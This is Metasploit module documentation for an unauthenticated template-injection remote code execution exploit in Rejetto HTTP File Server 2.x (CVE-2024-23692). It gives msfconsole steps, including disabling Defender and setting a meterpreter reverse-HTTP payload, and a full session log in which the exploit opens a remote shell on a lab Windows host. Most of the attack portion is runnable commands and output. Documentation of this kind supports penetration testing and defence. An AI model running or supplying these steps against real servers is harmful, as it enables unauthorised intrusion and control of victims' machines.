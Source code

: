 ## Vulnerable Application
The Rejetto HTTP File Server (HFS) version 2.x is vulnerable to a unauthenticated server side template
injection (SSTI) vulnerability. An remote unauthenticated attacker can execute code with the privileges
of the user account running the HFS.exe server process. This exploit has been tested to work against version
2.4.0 RC7 and 2.3m. The Rejetto HTTP File Server (HFS) version 2.x is no longer supported by the maintainers
and no patch is available. Users are recommended to upgrade to version 3.x.

## Testing
[Download](https://github.com/rejetto/hfs2/releases/download/v2.4-rc06/hfs.exe) a vulnerable version of HTTP
File Server (HFS). To run this server, simply execute the HFS.exe binary. By default the server will listen for
HTTP connections on port 80.

The exploit has been tested against versions:
* 2.4.0 RC7
* 2.3m

## Verification Steps
Note: On Windows, disable Defender if you are using the default payloads.

1. Start msfconsole
2. `use exploit/windows/http/rejetto_hfs_rce_cve_2024_23692`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set payload cmd/windows/http/x64/meterpreter_reverse_http`
5. `set LHOST eth0`
6. `set LPORT 4444`
7. `check`
8. `exploit`

## Scenarios

### Automatic

```
msf6 > use exploit/windows/http/rejetto_hfs_rce_cve_2024_23692
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > set RHOSTS 192.168.86.35
RHOSTS => 192.168.86.35
msf6 exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > set payload cmd/windows/http/x64/meterpreter_reverse_http
payload => cmd/windows/http/x64/meterpreter_reverse_http
msf6 exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > set LHOST eth0
LHOST => eth0
msf6 exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > set LPORT 4444
LPORT => 4444
msf6 exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > show options

Module options (exploit/windows/http/rejetto_hfs_rce_cve_2024_23692):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.86.35    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI                   yes       The base path to the web application
   VHOST                       no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter_reverse_http):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   EXTENSIONS                           no        Comma-separate list of extensions to load
   EXTINIT                              no        Initialization strings for extensions
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      gnwWBKQz         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               eth0             yes       The local listener hostname
   LPORT               4444             yes       The local listener port
   LURI                                 no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > check
[+] 192.168.86.35:80 - The target is vulnerable. Rejetto HFS version 2.4.0 RC7
msf6 exploit(windows/http/rejetto_hfs_rce_cve_2024_23692) > exploit 

[*] Started HTTP reverse handler on http://192.168.86.42:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Rejetto HFS version 2.4.0 RC7
[!] http://192.168.86.42:4444 handling request from 192.168.86.35; (UUID: ykybl99e) Without a database connected that payload UUID tracking will not work!
[*] http://192.168.86.42:4444 handling request from 192.168.86.35; (UUID: ykybl99e) Redirecting stageless connection from /pBzS1uPGeqRa91v1PJaNDwwtxXK-KTpGms8g with UA 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0'
[!] http://192.168.86.42:4444 handling request from 192.168.86.35; (UUID: ykybl99e) Without a database connected that payload UUID tracking will not work!
[*] http://192.168.86.42:4444 handling request from 192.168.86.35; (UUID: ykybl99e) Attaching orphaned/stageless session...
[!] http://192.168.86.42:4444 handling request from 192.168.86.35; (UUID: ykybl99e) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.35:31348) at 2024-06-06 16:38:33 +0100

meterpreter > getuid
Server username: testing-vm\user
meterpreter > sysinfo
Computer        : TESTING-VM
OS              : Windows 11 (10.0 Build 22631).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
